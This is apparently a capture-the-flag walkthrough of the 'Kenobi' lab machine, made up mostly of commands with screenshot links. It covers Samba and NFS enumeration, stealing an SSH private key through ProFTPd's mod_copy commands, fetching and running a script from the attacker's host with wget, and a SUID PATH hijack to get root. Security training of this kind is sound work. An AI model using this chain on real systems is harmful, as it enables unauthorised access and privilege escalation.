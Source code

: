 ```yaml
---
description: Walkthrough on exploiting a Linux machine
---
```


# Kenobi

## :desktop: Deploy the vulnerable machine

### #2 **Scan the machine with nmap, how many ports are open?**

```bash
sudo nmap 10.10.253.108
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-07-46.png>)

## :mag: Enumerating Samba for shares

### #1 Using the nmap command above, how many shares have been found?

```bash
sudo nmap -p 445 --script smb-enum-shares,smb-enum-users 10.10.253.108
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-37-28.png>)

### #2 Once you're connected, list the files on the share. What is the file can you see?

```bash
smbclient //10.10.253.108/anonymous
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-20-02.png>)

### **#3 What port is FTP running on?**

```bash
smbget -R smb://10.10.253.108/anonymous
sed -n '23,33p' log.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-25-27.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-52-38.png>)

### #4 What mount can we see?

```bash
sudo nmap -p 111 --script nfs-ls,nfs-statfs,nfs-showmount 10.10.253.108
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-56-47.png>)

## :file\_cabinet: Gain initial access with ProFtpd

### #1 What is the version?

#### Solution 1

```bash
sudo nmap -sV -p21 10.10.253.108
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-01-48.png>)

#### Solution 2

```bash
nc -nv 10.10.253.108 21
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-04-59.png>)

### #2 How many exploits are there for the ProFTPd running?

```bash
searchsploit proftpd 1.3.5
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-10-41.png>)

### #3 We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

```bash
sed -n '50,52p' log.txt
cat log.txt | head -21
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-16-29.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-17-51.png>)

### #4 We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

```bash
nc -nv 10.10.253.108 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-26-42.png>)

### #5 What is Kenobi's user flag (/home/kenobi/user.txt)?

```bash
mkdir -p /mnt/kenobi
sudo mount -o tcp 10.10.253.108:/var /mnt/kenobi
cp /mnt/kenobi/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.253.108
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-40-39.png>)

## :top: Privilege Escalation with Path Variable Manipulation

### #1 What file looks particularly out of the ordinary?

#### Solution 1

```
wget http://10.9.101.193/suid3num.py
python suid3num.py
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-51-55.png>)

#### Solution 2

```
find / -type f -perm -4000 2>/dev/null
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-46-05.png>)

### #2 **Run the binary, how many options appear?**

```
menu
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-50-29.png>)

### #3 As this file runs as the root users privileges, we can manipulate our path gain a root shell.

```
strings /usr/bin/menu | sed -n '23,25p'
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 20-08-58.png>)

### #4 **What is the root flag (/root/root.txt)?**

```
cp /bin/bash /tmp/
PATH=/tmp:$PATH menu
3
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 20-03-29.png>)
